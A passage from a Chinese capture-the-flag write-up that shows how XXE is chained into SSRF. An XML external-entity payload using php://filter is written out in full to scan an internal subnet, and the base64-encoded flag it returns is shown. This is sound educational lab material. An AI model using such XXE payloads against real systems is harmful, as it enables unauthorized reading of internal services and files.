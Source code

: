 得到返回信息：

```
<result><code>0</code><msg>IP address  HW type  Flags  HW address  Mask     Device
173.56.246.2     0x1         0x2         02:42:ad:38:f6:02     *        eth0
</msg></result>
```

不过原题是给了很多在一个C段下的ip，buu里面只给了两个。

然后可以通过xxe进行ssrf，这里可以用intruder进行C段爆破，最后是在`173.56.246.10`找到了flag

```
<?xml version="1.0"?>
<!DOCTYPE abc [
  <!ENTITY abc SYSTEM "php://filter/read=convert.base64-encode/resource=http://173.56.246.10/">
]>
<user><username>&abc;</username><password>2</password></user>
<result><code>0</code><msg>ZmxhZ3s4MGYzNGNhOS1kYmUxLTRmZWUtYjEyMi00Njk0NWRmYTQ1NGN9</msg></result>
```

flag{80f34ca9-dbe1-4fee-b122-46945dfa454c}